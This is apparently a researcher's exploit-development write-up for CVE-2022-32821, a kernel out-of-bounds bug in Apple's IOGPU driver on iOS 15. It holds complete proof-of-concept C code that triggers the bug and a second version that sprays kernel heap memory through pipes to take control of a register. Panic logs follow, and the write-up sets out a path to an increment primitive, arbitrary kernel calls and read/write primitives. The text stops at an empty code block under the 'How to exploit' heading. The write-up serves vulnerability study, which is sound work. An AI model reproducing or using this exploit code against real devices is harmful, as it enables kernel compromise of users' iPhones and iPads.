# [Practice] CVE-2022-32821 Exploit (arm64)

# Bug analysis

This bug is triggerable starting from iOS/iPadOS 15.0. Among the devices I own, I was unable to trigger the bug on iPhone 6s equipped with A9 chip.

However, I was able to trigger it on iPad 7th Gen equipped with A10 chip. Based on [HexaCon 2022 slides released by security researcher @potmdhex](https://github.com/potmdehex/slides/blob/main/Hexacon_2022_More_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf), I developed working exploit.


According to slides, this bug occurred in `AGXShared::create_mtllateevalevent` within IOGPU driver, where Out-Of-Bounds access leads to referencing unmapped kernel space.

Let's run PoC code.

- poc.c

```cpp
#include "iokit.h"
#include "piper.h"
#include "port_utils.h"
#include "spray.h"

io_connect_t IOGPU_init(void)
{
    mach_port_t mp = MACH_PORT_NULL;
    kern_return_t IOMasterPort(mach_port_t, mach_port_t *);
    IOMasterPort(MACH_PORT_NULL, &mp);
    io_connect_t uc;

    io_service_t s = IOServiceGetMatchingService(mp, IOServiceMatching("AGXAccelerator"));
    if (s == MACH_PORT_NULL)
    {
        return 0;
    }
    
    if (IOServiceOpen(s, mach_task_self(), 1, &uc) != KERN_SUCCESS)
    {
        return 0;
    }
    
    return uc;
}

uint32_t IOGPU_create_mtllateeventevent(io_connect_t uc)
{
    uint64_t Output[2] = {0};
    uint64_t OutputCount = 2;

    kern_return_t kr = IOConnectCallMethod(uc, 29, 0, 0, 0, 0, Output, &OutputCount, 0, 0);

    if (kr)
        return 0;
    
    return 1;
}

int main(int argc, char *argv[], char *envp[]) {     
    io_connect_t uc = IOGPU_init();
    printf("uc = 0x%x\n", uc);

    for(int i = 0; i < 2049; i++) {
        IOGPU_create_mtllateeventevent(uc);
    }

	return 0;
}

```

This triggers panic as shown below.

Upon checking PC value, crash occurred at `__ZN9AGXShared23create_mtllateevaleventEPy+0xC8`.

```cpp
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy
panic(cpu 1 caller 0xfffffff01b7d6a8c): Kernel data abort. at pc 0xfffffff019d8d088, lr 0xfffffff019d8d038 (saved state: 0xffffffeb06a0b530)
          x0:  0x0000000000000001 x1:  0x00000000000001fc  x2:  0x00000000ffffffff  x3:  0xffffffe0001f4810
          x4:  0xffffffe3794b94c0 x5:  0xfffffff019d2a598  x6:  0xffffffe3793500e0  x7:  0x0000000000000000
          x8:  0xffffffe379239d40 x9:  0x00000000001fffff  x10: 0x0000000000000008  x11: 0x0000000000000800
          x12: 0xffffffe379239d50 x13: 0xffffffffffffffff  x14: 0x0000000000000000  x15: 0x00000000ffffffff
          x16: 0x0000000000000001 x17: 0x0000000000000800  x18: 0xfffffff01b145000  x19: 0xffffffe0f2b1ac00
          x20: 0xffffffeb06a0bb20 x21: 0xffffffe0f2fac800  x22: 0xffffffe0f3535800  x23: 0x00000000ffffffff
          x24: 0x0000000000000000 x25: 0x0000000000003ff8  x26: 0x00000000ffffffff  x27: 0x0000000000fffff8
          x28: 0xffffffe0f702728c fp:  0xffffffeb06a0b8d0  lr:  0xfffffff019d8d038  sp:  0xffffffeb06a0b880                                                
          pc:  0xfffffff019d8d088 cpsr: 0x60400204         esr: 0x96000007          far: 0xffffffe37a239d38
          //pc 0xfffffff019d8d088 __ZN9AGXShared23create_mtllateevaleventEPy+0xC8     
          //lr 0xfffffff019d8d038 __ZN9AGXShared23create_mtllateevaleventEPy+0x78                                           
                                                                                                                                                           
Debugger message: panic                                                       
Memory ID: 0xff                                         
OS release type: User
OS version: 19A346
Kernel version: Darwin Kernel Version 21.0.0: Sun Aug 15 20:55:57 PDT 2021; root:xnu-8019.12.5~1/RELEASE_ARM64_T8010
KernelCache UUID: 57691C393F521C02E8239112CC78465D
Kernel UUID: FD3DD515-ADD7-33E1-AB4B-CB6FDE03F919
iBoot version: pongoOS-2.6.3-7973456c
secure boot?: YES
Paniclog version: 13
Kernel slide:      0x0000000013fc8000
Kernel text base:  0xfffffff01afcc000
mach_absolute_time: 0x10bb54bb4
Epoch Time:        sec       usec
  Boot    : 0x69790352 0x000e4844
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x697903ef 0x000a159a

CORE 0: PC=0xfffffff01b1ad8f8, LR=0xfffffff01b1ad8f8, FP=0xffffffeb12a33ef0 //processor_idle+0x124
CORE 1 is the one that panicked. Check the full backtrace for details.
Panicked task 0xffffffe0f342e108: 210 pages, 1 threads: pid 300: poc
Panicked thread: 0xffffffe0f74fb140, backtrace: 0xffffffeb06a0acf0, tid: 3945
                  lr: 0xfffffff01b1802d8  fp: 0xffffffeb06a0ad30  //debugger_collect_diagnostics+0x184
                  lr: 0xfffffff01b180068  fp: 0xffffffeb06a0ada0  //handle_debugger_trap+0x278
                  lr: 0xfffffff01b2a16ec  fp: 0xffffffeb06a0ae20  //handle_uncategorized+0x100
                  lr: 0xfffffff01b2a0874  fp: 0xffffffeb06a0aed0  //sleh_synchronous+0x148
                  lr: 0xfffffff01b1455fc  fp: 0xffffffeb06a0aee0  //fleh_synchronous+0x28
                  lr: 0xfffffff01b17fd80  fp: 0xffffffeb06a0b270  //panic_trap_to_debugger+0x250
                  lr: 0xfffffff01b17fd80  fp: 0xffffffeb06a0b2d0  //panic_trap_to_debugger+0x250
                  lr: 0xfffffff01b7cfc98  fp: 0xffffffeb06a0b2f0  //panic+0x30
                  lr: 0xfffffff01b7d6a8c  fp: 0xffffffeb06a0b460  //panic_with_thread_kernel_state+0x108
                  lr: 0xfffffff01b2a10fc  fp: 0xffffffeb06a0b510  //sleh_synchronous+0x9d4
                  lr: 0xfffffff01b1455fc  fp: 0xffffffeb06a0b520  //fleh_synchronous+0x28
                  lr: 0xfffffff019d8d038  fp: 0xffffffeb06a0b8d0  //__ZN9AGXShared23create_mtllateevaleventEPy+0x78
                  lr: 0xfffffff01b762bb0  fp: 0xffffffeb06a0b930  //__ZN12IOUserClient14externalMethodEjP25IOExternalMethodArgumentsP24IOExternalMethodDispatchP8OSObjectPv+0x1E0
                  lr: 0xfffffff01b76b4c4  fp: 0xffffffeb06a0bad0  //is_io_connect_method+0x2FC
                  lr: 0xfffffff01b270898  fp: 0xffffffeb06a0bbf0  //__Xio_connect_method+0x190
                  lr: 0xfffffff01b18503c  fp: 0xffffffeb06a0bc80  //ipc_kobject_server+0x344
                  lr: 0xfffffff01b15fb64  fp: 0xffffffeb06a0bcf0  //ipc_kmsg_send+0x17C
                  lr: 0xfffffff01b174dec  fp: 0xffffffeb06a0bd80  //mach_msg_overwrite_trap+0xEC
                  lr: 0xfffffff01b29712c  fp: 0xffffffeb06a0be60  //mach_syscall+0x19C
                  lr: 0xfffffff01b2a0d44  fp: 0xffffffeb06a0bf10  //sleh_synchronous+0x618
                  lr: 0xfffffff01b1455fc  fp: 0xffffffeb06a0bf20  //fleh_synchronous+0x28

** Stackshot Succeeded ** Bytes Traced 143125 (Uncompressed 371728) **
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy

Please go to https://panic.apple.com to report this panic
```

It attempted to dereference memory address calculated by adding x27 to x8. However, since this memory region was unmapped, it caused panic—specifically, “Kernel data abort”.

What this reveals is that it attempted to reference address 0xffffffe3XXXXXXXX. This implies that it tried to access **address offset by 0xfffff8 (the value of x27) from allocated kernel address (x8)**.

If perform kernel heap spraying sufficiently, It should be able to gain control without triggering  panic.



According to additional information from slides, **initial kernel address is allocated from  default/kext.kalloc.576 zone via IOMalloc_external call.**



Verifying this by hooking kernel with xnuspy confirms that kernel memory is internally allocated within `AGXFirmwareResourceStack::replaceStorageArrays`. It allocates 528 bytes(=0x210) via IOMalloc_external, so allocates from default.kalloc.576 zone.

- kernhook src and running result

[https://github.com/wh1te4ever/xnu_1day_practice/blob/edd231a7df04f857f4b51dcee98c21dffcdfe6bb/CVE-2022-32821/research_ipad7_150/kernhook/main.c](https://github.com/wh1te4ever/xnu_1day_practice/blob/edd231a7df04f857f4b51dcee98c21dffcdfe6bb/CVE-2022-32821/research_ipad7_150/kernhook/main.c)

```c
...
[  115.012000]: [kernhook] create_mtllateevalevent caller: 0xfffffff00779abb0
[  115.012007]: [kernhook] create_mtllateevalevent kret = 0x0, AGXShared = 0xffffffe0f38e9600, a2 = 0xffffffeb06afbb20, caller = 0xfffffff00779abb0
[  115.012066]: [kernhook] IOMalloc_external caller: 0xfffffff005da5440
[  115.012073]: [kernhook] IOMalloc_external kret = 0xffffffe378d7f180, sz = 0x210
[  115.012079]: [kernhook] replaceStorageArrays kret = 0x1, AGXFirmwareResourceStack = 0xffffffe0f368fba8, a2 = 0x2, caller = 0xfffffff005da4790
[  115.012083]: [kernhook] growResourceStack caller: 0xfffffff005dc5038
[  115.012090]: [kernhook] growResourceStack kret = 0x1, AGXFirmwareResourceStack = 0xffffffe0f368fba8, caller = 0xfffffff005dc5038
[  115.012098]: [kernhook] panic_trap_to_debugger called due to panic, spinning here for a little bit...
```

- Function call trace

`__ZN9AGXShared23create_mtllateevaleventEPy`
→  `__ZN24AGXFirmwareResourceStackIy16AGXLateEvalEventE17growResourceStackEv`
→ `__ZN24AGXFirmwareResourceStackIy16AGXLateEvalEventE20replaceStorageArraysEj`
→ `j__IOMalloc_external_18`



As shown above, the address allocated by `IOMalloc_external` within `AGXFirmwareResourceStack::replaceStorageArrays` was **0xffffffe378d7f180**.

Re-examining panic log after running PoC confirms that the actual allocated address matches  value in x8 register.

As previously mentioned, panic occurs here because it attempts to access unmapped address at x8 + 0xfffff8.

```c
panic(cpu 1 caller 0xfffffff0107a6a8c)
   Kernel data abort. at pc 0xfffffff00ed5d088, lr 0xfffffff00ed5d038 (saved state: 0xffffffeb06afb4c0)
      x0:  0x0000000000000001 x1:  0xffffffeb06afb300  x2:  0x0000000000000000  x3:  0x0000000000000000
      x4:  0x0000000000000000 x5:  0x00ffffff0000ffff  x6:  0xfffffff005dc5038  x7:  0x0000000000000000
      x8:  0xffffffe378d7f180 x9:  0x00000000001fffff  x10: 0x0000000000000008  x11: 0xffffffeb05160000
      x12: 0x00000000000000ff x13: 0x000000000000007f  x14: 0x0000000000000001  x15: 0xed07932700000000
      x16: 0x000000000000003c x17: 0x0000000100000040  x18: 0xfffffff010115000  x19: 0xffffffe0f33cd440
      x20: 0xffffffeb06afbb20 x21: 0xffffffe0f38e9600  x22: 0xffffffe0f368f000  x23: 0x00000000ffffffff
      x24: 0x0000000000000000 x25: 0x0000000000003ff8  x26: 0x00000000ffffffff  x27: 0x0000000000fffff8
      x28: 0xffffffe0f3eecf8c fp:  0xffffffeb06afb860  lr:  0xfffffff00ed5d038  sp:  0xffffffeb06afb810
      pc:  0xfffffff00ed5d088 cpsr: 0x60400204         esr: 0x96000007          far: 0xffffffe379d7f178

Debugger Message:      panic
Memory ID:             0xff
OS Release Type:       User
OS Version:            19A346
Kernel Version:        Darwin Kernel Version 21.0.0: Sun Aug 15 20:55:57 PDT 2021; root:xnu-8019.12.5~1/RELEASE_ARM64_T8010
KernelCache UUID:      57691C393F521C02E8239112CC78465D
Kernel UUID:           FD3DD515-ADD7-33E1-AB4B-CB6FDE03F919
iBoot Version:         pongoOS-2.6.3-7973456c
Secure Boot:           true
Paniclog Version:      13
Kernel Slide:          0x8f98000
Kernel Text Base:      0xfffffff00ff9c000
Mach Absolute Time:    0xa7b3d955
```

So, what if we create pipes to perform multiple allocations in `data.kalloc.16384` zone to gain control over the data?

The poc2.c code below creates 980 pipes. For each pipe, it performs kernel allocation of 0x4000 bytes, sprays the memory with pattern `0x4142434445464748`, and then triggers vulnerability.

- poc2.c

```cpp
#include "iokit.h"
#include "piper.h"
#include "port_utils.h"
#include "spray.h"

io_connect_t IOGPU_init(void)
{
    mach_port_t mp = MACH_PORT_NULL;
    kern_return_t IOMasterPort(mach_port_t, mach_port_t *);
    IOMasterPort(MACH_PORT_NULL, &mp);
    io_connect_t uc;

    io_service_t s = IOServiceGetMatchingService(mp, IOServiceMatching("AGXAccelerator"));
    if (s == MACH_PORT_NULL)
    {
        return 0;
    }
    
    if (IOServiceOpen(s, mach_task_self(), 1, &uc) != KERN_SUCCESS)
    {
        return 0;
    }
    
    return uc;
}

uint32_t IOGPU_create_mtllateeventevent(io_connect_t uc)
{
    uint64_t Output[2] = {0};
    uint64_t OutputCount = 2;

    kern_return_t kr = IOConnectCallMethod(uc, 29, 0, 0, 0, 0, Output, &OutputCount, 0, 0);

    if (kr)
        return 0;
    
    return 1;
}

int main(int argc, char *argv[], char *envp[]) {

    // prepare spray stuffs
    increase_file_limit();
    size_t pipe_count = 980;
    size_t pipe_buffer_size = 0x4000;
    uint8_t *pipe_buffer = (uint8_t *)malloc(pipe_buffer_size);
    int *pipefds = create_pipes(&pipe_count);
    uint64_t val = 0x4142434445464748;
    memset_pattern8(pipe_buffer, &val, pipe_buffer_size);
    pipe_spray(pipefds, pipe_count, pipe_buffer, pipe_buffer_size, NULL);

    //trigger bug
    io_connect_t uc = IOGPU_init();
    printf("uc = 0x%x\n", uc);

    for(int i = 0; i < 2049; i++) {
        IOGPU_create_mtllateeventevent(uc);
    }

	return 0;
}

```

Okay, good! This resolves the issue of panicking due to accessing unmapped kernel memory!

Although panic occurs at the very next instruction, we have successfully gained control of x8  register.

```cpp
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy
panic(cpu 0 caller 0xfffffff026e8aa8c): Kernel data abort. at pc 0xfffffff02544108c, lr 0xfffffff025441038 (saved state: 0xffffffeb06afb530)
          x0:  0x0000000000000001 x1:  0x00000000000001fc  x2:  0x00000000ffffffff  x3:  0xffffffe000340810
          x4:  0xffffffe3796eddc0 x5:  0xfffffff0253de598  x6:  0xffffffe379630ae0  x7:  0x0000000000000000
          **x8:  0x4142434445464748** x9:  0x00000000001fffff  x10: 0x0000000000000008  x11: 0x0000000000000800
          x12: 0xffffffe379691f90 x13: 0xffffffffffffffff  x14: 0x0000000000000000  x15: 0x00000000ffffffff
          x16: 0x0000000000000001 x17: 0x0000000000000800  x18: 0xfffffff0267f9000  x19: 0xffffffe0f805f960
          x20: 0xffffffeb06afbb20 x21: 0xffffffe0f3079400  x22: 0xffffffe0f2eff000  x23: 0x00000000ffffffff
          x24: 0x0000000000000000 x25: 0x0000000000003ff8  x26: 0x00000000ffffffff  x27: 0x0000000000fffff8
          x28: 0xffffffe0f643ce8c fp:  0xffffffeb06afb8d0  lr:  0xfffffff025441038  sp:  0xffffffeb06afb880
          pc:  0xfffffff02544108c cpsr: 0x60400204         esr: 0x96000004          far: 0x4142434445464758
          //pc 0xfffffff02544108c __ZN9AGXShared23create_mtllateevaleventEPy+0xCC
          //lr 0xfffffff025441038 __ZN9AGXShared23create_mtllateevaleventEPy+0x78

Debugger message: panic
Memory ID: 0xff
OS release type: User
OS version: 19A346
Kernel version: Darwin Kernel Version 21.0.0: Sun Aug 15 20:55:57 PDT 2021; root:xnu-8019.12.5~1/RELEASE_ARM64_T8010
KernelCache UUID: 57691C393F521C02E8239112CC78465D
Kernel UUID: FD3DD515-ADD7-33E1-AB4B-CB6FDE03F919
iBoot version: pongoOS-2.6.3-7973456c
secure boot?: YES
Paniclog version: 13
Kernel slide:      0x000000001f67c000
Kernel text base:  0xfffffff026680000
mach_absolute_time: 0x6e750cbc
Epoch Time:        sec       usec
  Boot    : 0x6979099c 0x000b9e82
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x697909cb 0x00018499

CORE 0 is the one that panicked. Check the full backtrace for details.
CORE 1: PC=0xfffffff025c7b464, LR=0xfffffff025c7b440, FP=0xffffffeb12073270     //PC=_make_dirent_iterator+0x1EC; LR=_make_dirent_iterator+0x1C8;
Panicked task 0xffffffe0f7b61a90: 210 pages, 1 threads: pid 280: poc
Panicked thread: 0xffffffe0f7b264f0, backtrace: 0xffffffeb06afacf0, tid: 3226
                  lr: 0xfffffff0268342d8  fp: 0xffffffeb06afad30    //debugger_collect_diagnostics+0x184
                  lr: 0xfffffff026834068  fp: 0xffffffeb06afada0    //handle_debugger_trap+0x278
                  lr: 0xfffffff0269556ec  fp: 0xffffffeb06afae20    //handle_uncategorized+0x100
                  lr: 0xfffffff026954874  fp: 0xffffffeb06afaed0    //sleh_synchronous+0x148
                  lr: 0xfffffff0267f95fc  fp: 0xffffffeb06afaee0    //fleh_synchronous+0x28
                  lr: 0xfffffff026833d80  fp: 0xffffffeb06afb270    //panic_trap_to_debugger+0x250
                  lr: 0xfffffff026833d80  fp: 0xffffffeb06afb2d0    //panic_trap_to_debugger+0x250
                  lr: 0xfffffff026e83c98  fp: 0xffffffeb06afb2f0    //panic+0x30
                  lr: 0xfffffff026e8aa8c  fp: 0xffffffeb06afb460    //panic_with_thread_kernel_state+0x108
                  lr: 0xfffffff0269550fc  fp: 0xffffffeb06afb510    //sleh_synchronous+0x9d4
                  lr: 0xfffffff0267f95fc  fp: 0xffffffeb06afb520    //fleh_synchronous+0x28
                  lr: 0xfffffff025441038  fp: 0xffffffeb06afb8d0    //__ZN9AGXShared23create_mtllateevaleventEPy+0x78
                  lr: 0xfffffff026e16bb0  fp: 0xffffffeb06afb930    //__ZN12IOUserClient14externalMethodEjP25IOExternalMethodArgumentsP24IOExternalMethodDispatchP8OSObjectPv+0x1E0
                  lr: 0xfffffff026e1f4c4  fp: 0xffffffeb06afbad0    //is_io_connect_method+0x2FC
                  lr: 0xfffffff026924898  fp: 0xffffffeb06afbbf0    //__Xio_connect_method+0x190
                  lr: 0xfffffff02683903c  fp: 0xffffffeb06afbc80    //ipc_kobject_server+0x344
                  lr: 0xfffffff026813b64  fp: 0xffffffeb06afbcf0    //ipc_kmsg_send+0x17C
                  lr: 0xfffffff026828dec  fp: 0xffffffeb06afbd80    //mach_msg_overwrite_trap+0xEC
                  lr: 0xfffffff02694b12c  fp: 0xffffffeb06afbe60    //mach_syscall+0x19C
                  lr: 0xfffffff026954d44  fp: 0xffffffeb06afbf10    //sleh_synchronous+0x618
                  lr: 0xfffffff0267f95fc  fp: 0xffffffeb06afbf20    //fleh_synchronous+0x28

** Stackshot Succeeded ** Bytes Traced 209775 (Uncompressed 538320) **
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleT8010MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> RTBuddy

Please go to https://panic.apple.com to report this panic
```

As shown in the image below, panic still occurs, but v18 is now fully controllable.
If we succeed in controlling it, we gain two distinct advantages.

Line 79: `((void (__fastcall **)(__int64))((_QWORD *)v18 + 0x20LL))(v18);` 

Line 82: `(_QWORD )(v6 + 0xC0) = ((__int64 (__fastcall **)(_QWORD))(**(_QWORD **)(v19 + 0x10) + 0x90LL))((_QWORD *)(v19 + 0x10))`

- If have KASLR leak, this allows us to invoke arbitrary kernel functions.

Line 81: `++*(_DWORD *)v19;`

- can obtain primitive to increment the value at specific kernel address by 1.



According to slides, suggested exploitation method involves incrementing kmsg’s descriptor count to trigger arbitrary free of ool port descriptor allocated from default.kalloc.16384 zone.



Furthermore, It explained method to survive arbitrary kernel function calls to prevent panic, assuming scenario when KASLR leak is not possible.

For arm64 devices, It can be achieved by repeatedly calling `IORegistryCreateIterator` to spray C++ objects containing vtables.



Thanks to information, these ideas provided inspiration needed to successfully achieve arbitrary kernel read/write primitives.

# How to exploit

Since I utilized exploitation techniques covered in previous post, [“[Practice] Understanding CVE-2021-30937(multicast_bytecopy) (macOS 12.0.1/iOS 15)”](https://github.com/wh1te4ever/xnu_1day_practice/blob/710b0ef811b4d628effa1ab5c935336ba2f58e34/CVE-2021-30937/README.md#exploit-macos-1201-vmapple), I will skip those specific details here. Instead, I provide a link for reference instead.

## 1. `IOGPU_get_command_queue_extra_refills_needed`

- Description skipped
- [https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-exploitation_init](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-exploitation_init)

```cpp
